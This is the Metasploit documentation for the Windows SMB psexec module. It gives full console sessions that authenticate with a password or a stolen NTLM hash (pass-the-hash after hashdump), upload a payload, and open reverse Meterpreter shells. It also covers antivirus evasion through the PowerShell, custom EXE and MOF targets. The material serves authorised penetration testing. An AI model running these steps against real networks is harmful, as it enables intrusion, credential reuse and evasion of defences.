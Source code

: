 psexec is one of the most popular exploits against Microsoft Windows. It is a great way to test
password security, and demonstrate how a stolen password could lead to a complete compromise of an
entire corporate network.

The Metasploit Framework actually includes different module types of psexec for different
scenarios. exploit/windows/smb/psexec is the father of them all, and is used the same way
you normally would with any Metasploit exploits.


## Vulnerable Application

To be able to use exploit/windows/smb/psexec, you must meet these requirements:

1. You have a valid username/password.
2. Firewall allows SMB traffic.
3. Target is using SMBv1.
4. The remote Windows machine's network security policy allows it. If you see [one of these errors](https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F), it's an indication it doesn't.

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

By default, exploit/windows/smb/psexec can be as simple as setting the RHOST option, and ready to
go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

A valid Windows username.

**The SMBPass option**

This can be either the plain text version, or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario with using psexec is that attackers usually begin by
breaking into a box, manage to the dump the hashes, and use some of those hashes to log into
other boxes on the network using psexec. So let's say I'm in that scenario with the following
stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

Without the need to crack the hash, I can simply copy and paste it to the SMBPass option in
psexec, and get a session:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

exploit/windows/smb/psexec comes with multiple targets available, and Automatic is default. What
happens under the hood is if Powershell is detected on the remote machine, it will try Powershell,
otherwise it uses the natvie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded
in it. Since this approach does not leave anything on disk, it is a very powerful way to evade
antivirus. However, older Windows machines might not support Powershell by default.

Ideally, you probably want to use the Automatic target setting instead of this. Because the
automatic mode will check if the target supports Powershell or not before it tries, but the
manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (modifiable with the
SHARE datastore option) , and then execute it with psexec.

This approach is rather reliable, but has a high chance of getting caught by antivirus on the
target. To counter this, you can try to use a template by setting the EXE::Path and EXE::Template
datastore options. Or, you can supply your own custom EXE by setting the EXE::Custom option.

**MOF Upload Target**

The MOF target technically does not use psexec: it does not explicitly tell Windows to execute
anything. All it does is uploading two files: the payload (exe) in SYSTEM32, and a managed object
format file in SYSTEM32\wbem\mof\ directory. When Windows sees the mof file in that directory, it
automatically runs it. Once executed, the code inside the mof file basically tells Windows to
execute our payload in SYSTEM32, and we get a session.

Although a neat trick, Metasploit's MOF library only works against Windows XP and
Windows Server 2003. And since it does write files to disk, there is also a high chance of getting
caught by antivirus on the target.

The way to counter antivirus is still the same. You can either use a different template by setting
the EXE::Path and EXE::Template datastore options. Or you can supply your own custom EXE by setting
the EXE::Custom option.


